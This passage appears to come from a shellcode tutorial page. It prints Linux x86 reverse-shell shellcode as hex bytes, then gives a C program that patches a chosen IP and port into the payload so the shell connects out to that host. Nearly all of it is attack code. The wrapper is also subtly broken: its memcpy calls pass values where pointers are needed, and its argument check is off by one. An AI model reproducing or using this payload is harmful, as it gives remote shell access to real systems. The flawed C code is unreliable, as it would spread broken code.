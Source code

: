 "\x31\xc0\xf7\xe2\x52\x89\xd3\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x5b\x68\xc0\xa8\xc8\x04\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xb0\x66\xcd\x80\x89\xfb\x31\xc9\xb0\x3f\xcd\x80\x41\x66\x83\xf9\x02\x7e\xf5\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
</pre>

<p style="text-align:justify;">Afterwards, the following code utilises the shellcode created from the assembly code. The program initialises a custom <strong>PORT</strong> and <strong>IP</strong> to connect to the target host.</p>

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define PORT 27
#define IP 21

int main(int argc, char *argv[])
{

unsigned char shellcode[] = \
"\x31\xc0\xf7\xe2\x52\x89"
"\xd3\x43\x53\x6a\x02\x89"
"\xe1\xb0\x66\xcd\x80\x89"
"\xc7\x5b\x68"
"\xc0\xa8\xc8\x04" //IP
"\x66\x68"
"\x04\xd2"// PORT
"\x66\x53\x89\xe1\x6a\x10"
"\x51\x57\x89\xe1\x43\xb0"
"\x66\xcd\x80\x89\xfb\x31"
"\xc9\xb0\x3f\xcd\x80\x41"
"\x66\x83\xf9\x02\x7e\xf5"
"\x31\xc0\x50\x68\x2f\x2f"
"\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x50\x89\xe2"
"\x53\x89\xe1\xb0\x0b\xcd"
"\x80";

if (argc &lt; 2) {
printf("[!] Usage: %s &lt;IP&gt; &lt;PORT&gt;\n\n", argv[0]);
return -1;
}

// provide binary form of the IP into the shellcode in order to be able to connect to that specific IP address
unsigned ipaddress = inet_addr(argv[1]);

// copy the IP in the right shellcode offset 21 bytes from the beginning of the shellcode
memcpy(shellcode[IP], ipaddress, 4);

// provide binary form of the port into the shellcode in order to be able to connect to that specific port

unsigned int port = htons(atoi(argv[2]));

// copy the new port in the right shellcode offset 27 bytes from the beginning of the shellcode
memcpy(shellcode[PORT], port, 2);

printf("Shellcode Length: %d\n", strlen(shellcode));
```